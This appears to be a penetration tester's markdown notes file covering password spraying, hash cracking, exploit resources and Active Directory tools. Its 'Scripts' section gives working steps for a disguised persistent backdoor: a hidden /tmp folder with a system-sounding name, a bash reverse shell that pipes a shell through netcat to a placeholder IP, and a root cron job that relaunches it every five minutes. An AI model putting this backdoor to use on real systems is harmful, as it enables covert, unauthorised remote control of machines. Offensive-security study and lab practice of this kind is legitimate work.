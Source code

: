 ```

## Passwords - All about them!
Passwords are those lovely things that allow us to create more secure systems, or exploit vulnerable systems. All depends on password strength, encryption, and hashing.
### Info Gathering
#### Check Password Strength and Requirements
In Linux and Windows, users have a password requirement that they must meet. Check these requirements. If the requirements are too high, maybe try other avenues of exploitation.
### Password Sprays
Once you have the password for one user, spray it to other hosts to see what works!
### Password Cracking
The lovely world of defeating the hash; password cracking is best done with a good GPU and weak hash. Rainbow tables are your best friend here. Ultimately if the password is weak, it doesn't matter the hash. John the ripper or hashcat are your best tools here.


## Scripts
`cd /tmp`
`mkdir system_status` - use this for all of your files to be kept hidden
`cd system_status`
`nano system_connection.sh` - this will be your reverse shell
```
#!/bin/bash
if ! netstat -an | grep -q '<ip:4040*ESTABLISHED>'; then
	/bin/bash | nc <ip> 4040
fi
```
`sudo chmod a+x system_connection.sh` - allow it to run
```
crontab -e
*/5 * * * * root /tmp/system_status/system_connection.sh
```

## Online Resources
List of resources to use to find CVEs and other known exploits:
* https://exploits.shodan.io/welcome
* https://nvd.nist.gov/vuln/search
* ippsec is a great youtuber and online source of info
* searchsploit or exploitdb
* whatweb - used to check IPs for certain exploits and stuff
* Godpotato - learn to use this for Windows/AD

## Other Notes
* Use resolv.conf to add a DC to your DNS for local names
* IPC can be used to enumerate all users if you have READ permissions
* learn certipy
* 